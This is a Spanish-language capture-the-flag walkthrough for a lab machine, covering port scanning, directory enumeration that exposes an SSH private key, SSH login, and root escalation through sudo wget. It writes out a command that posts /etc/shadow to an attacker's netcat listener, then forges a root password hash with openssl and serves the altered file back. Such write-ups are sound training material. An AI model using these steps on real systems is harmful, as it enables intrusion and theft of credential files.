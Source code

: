 ### Tags: `shadow` `openssl`

# Escaneo (**22, 80**)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/65c36438-9c2a-4222-895e-2dfaa77410ad)

# Port 80

Mirando el código fuente de la web (**Ctrl + u**) encontramos un mensajito con un posible usuario `Jessie`

```
<!-- Jessie don't forget to udate the webiste -->
```

## Gobuster

Con Gobuster encontramos este directorio `sitemap`

```ruby
gobuster dir -u http://<IP> -t 150 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

![image](https://github.com/user-attachments/assets/5804e49d-ebc1-4473-835a-a51e4fc3d998)


## Dirb

Ahora tirándole un dirb encontramos este directorio `.ssh` con una clave **id_rsa**

```ruby
dir http://<IP>/sitemap
```

![image](https://github.com/user-attachments/assets/bc2dd4fa-c631-4eb7-82d5-0d93195b4b68)

Tenemos la id_rsa

![image](https://github.com/user-attachments/assets/dbed8726-0533-480c-bdec-349dec0f8811)

# SSH

Nos conectamos por ssh con el usuario `jessie` que encontramos antes

![image](https://github.com/user-attachments/assets/5fe9d23e-2316-405a-93ed-20a99e148b50)

# Escalada *ROOT*

Poniendo `sudo -l` vemos que podemos ejecutar como *root* **wget**, por ende nos vamos a ``GTFObins`` y ponemos los siguientes comandos:

```ruby
nc -nlvp 443  #en la maquina atacante
sudo /usr/bin/wget --post-file=/etc/shadow <IP>:443   #maquina victima
```

Una ves puesto esos comando en la maquina actante vamos a recibir el `etc/shadow` y lo que hacemos es copiarlo y ponerlo en un archivito y jugar con `openssl` para cambiarle la contraseña a root y después *compartirlo* con la máquina victima con la **password cambiada**

```ruby
nano shadow
openssl passwd -6 -salt 'salt' 'password'
nano shadow   #el hash creado se lo ponemos a root
```

![image](https://github.com/user-attachments/assets/4991aa84-93a2-4ab4-ad28-d4b566cca1b9)

Ahora compartimos le archivo `shadow`

```ruby
python3 http.server -m 8080
```

Y acá ya seriamos `ROOT`

![image](https://github.com/user-attachments/assets/e05e5408-7f1b-4ecb-a30b-705892253b5d)


















